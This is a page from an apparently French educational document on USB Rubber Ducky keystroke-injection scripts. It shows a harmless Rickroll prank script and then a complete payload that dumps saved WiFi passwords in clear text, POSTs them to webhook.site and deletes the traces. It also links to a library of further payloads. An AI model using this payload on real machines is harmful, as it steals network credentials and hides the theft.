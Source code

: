 \documentclass[
  french,
  paper=a4,
  ,captions=tableheading
]{scrartcl}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\DataTypeTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{#1}}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{DELAY 1500}
\NormalTok{GUI }\FunctionTok{r}
\NormalTok{DELAY 200}
\DataTypeTok{STRING}\NormalTok{ msedge.}\FunctionTok{exe}\NormalTok{ https://www.}\FunctionTok{youtube}\NormalTok{.}\FunctionTok{com}\NormalTok{/watch?v=dQw4w9WgXcQ}
\NormalTok{ENTER}
\NormalTok{DELAY 200}
\NormalTok{GUI }\FunctionTok{r}
\DataTypeTok{STRING}\NormalTok{ cmd}
\NormalTok{ENTER}
\DataTypeTok{STRING}\NormalTok{ notepad.}\FunctionTok{exe}
\NormalTok{ENTER}
\DataTypeTok{STRING}\NormalTok{ never gonna give}
\NormalTok{DELAY 50}
\NormalTok{ENTER}
\DataTypeTok{STRING}\NormalTok{ never gonna give}
\NormalTok{DELAY 50}
\NormalTok{CTRL S}
\NormalTok{DELAY 50}
\DataTypeTok{STRING}\NormalTok{ never}
\NormalTok{ENTER}
\end{Highlighting}
\end{Shaded}

Ces exemples sont simples dans une volonté de montrer de petites
opérations inoffensives.

En revanche, ils démontrent le potentiel d'attaque de cette technologie.
D'autres scripts plus dangereux sont libres d'être utilisés en suivant
ce
\href{https://github.com/hak5/usbrubberducky-payloads/tree/master/payloads/library}{lien}\footnote{Payloads
  library, github,
  \href{https://github.com/hak5/usbrubberducky-payloads/tree/master/payloads/library}{hak5
  payloads library}}.

Typiquement, voici un exemple permettant de prendre les mots de passe du
WiFi d'une machine et les envoyer à un serveur distant par la méthode
POST.

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{DELAY 3000}
\NormalTok{GUI }\FunctionTok{r}
\NormalTok{DELAY 100}
\DataTypeTok{STRING}\NormalTok{ cmd /k}
\NormalTok{ENTER}
\NormalTok{DELAY 500}
\DataTypeTok{STRING} \FunctionTok{cd}\NormalTok{ \%temp\%}
\NormalTok{ENTER}
\NormalTok{DELAY 500}
\DataTypeTok{STRING}\NormalTok{ netsh wlan export profile key=}\FunctionTok{clear}
\NormalTok{ENTER}
\NormalTok{DELAY 1000}
\NormalTok{ENTER}
\DataTypeTok{STRING}\NormalTok{ powershell }\FunctionTok{Select{-}String}\NormalTok{ {-}Path Wi*.}\FunctionTok{xml}\NormalTok{ {-}Pattern \textquotesingle{}keyMaterial\textquotesingle{} \textgreater{} WiFi{-}PASS}
\NormalTok{ENTER}
\NormalTok{DELAY 1000}
\DataTypeTok{STRING}\NormalTok{ powershell }\FunctionTok{Invoke{-}WebRequest}\NormalTok{ {-}Uri https://webhook.}\FunctionTok{site}\NormalTok{/URL {-}Method POST {-}InFile WiFi{-}PASS}
\NormalTok{ENTER}
\NormalTok{DELAY 1000}
\DataTypeTok{STRING} \FunctionTok{del}\NormalTok{ WiFi* /s /f /q}
\NormalTok{ENTER}
\NormalTok{DELAY 100}
\DataTypeTok{STRING} \KeywordTok{exit}
\NormalTok{ENTER}
\end{Highlighting}
\end{Shaded}
\end{document}
